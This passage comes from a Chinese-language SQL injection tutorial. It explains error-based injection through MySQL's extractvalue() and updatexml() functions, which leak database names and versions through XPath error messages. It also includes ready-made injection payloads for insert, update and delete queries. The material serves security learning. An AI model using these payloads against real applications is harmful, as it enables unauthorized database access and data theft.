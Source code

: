   利用concat函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。

  ![1551928141656](https://blogs-pic.oss-cn-beijing.aliyuncs.com/images/2019-03-07 报错注入：extractvalue、updatexml/1551928141656.png?x-oss-process=style/shuiyin)

  ```mysql
  // insert
  username=x' or extractvalue(1,concat(0x7e,database())) or '
  
  // update
  add=hubeNicky' or extractvalue(1,concat(0x7e,database())) or '
  
  // delete
  ?id=56+or+extractvalue(1,concat(0x7e,database()))
  ```

  其中的concat()函数是将其参数连成一个字符串，因此不会符合xpath_expr的格式，从而出现格式错误，爆出

  ![image-20220727193832420](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727193832420.png)

- `UpdateXML(xml_document, xpath_expr, new_xml)`

  xml_document：String格式，为XML文档对象的名称

  xpath_expr：Xpath格式的字符串

  new_xml：String格式，替换查找到的符合条件的数据

  作用：改变文档中符合条件的节点的值，即改变XML_document中符合XPATH_string的值

  此函数用来更新选定XML片段的内容，将XML标记的给定片段的单个部分替换为新的XML片段 new_xml，然后返回更改的XML。xml_document替换的部分 与xpath_expr用户提供的XPath表达式匹配。

  如果未xpath_expr找到表达式匹配 ，或者找到多个匹配项，则该函数返回原始xml_document的XML片段。所有三个参数都应该是字符串。

  和上面的extractvalue函数一样，当Xpath路径语法错误时，就会报错，报错内容含有错误的路径内容：

  ![1551929714141](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/1551929714141.png)

  ```mysql
  // insert
  username=x' or updatexml(1,concat(0x7e,(version())),0) or '
  
  // update
  add=hubeNicky' or  updatexml(1,concat(0x7e,(version())),0) or '
  
  // delete
  ?id=56+or+updatexml+(1,concat(0x7e,database()),0)
  ```

  ![image-20220727195708498](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727195708498.png)

  ![image-20220727195718450](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727195718450.png)

#### 基于布尔的SQL盲注（其次）

逻辑判断，regexp，like，ascii，left，ord，mid。
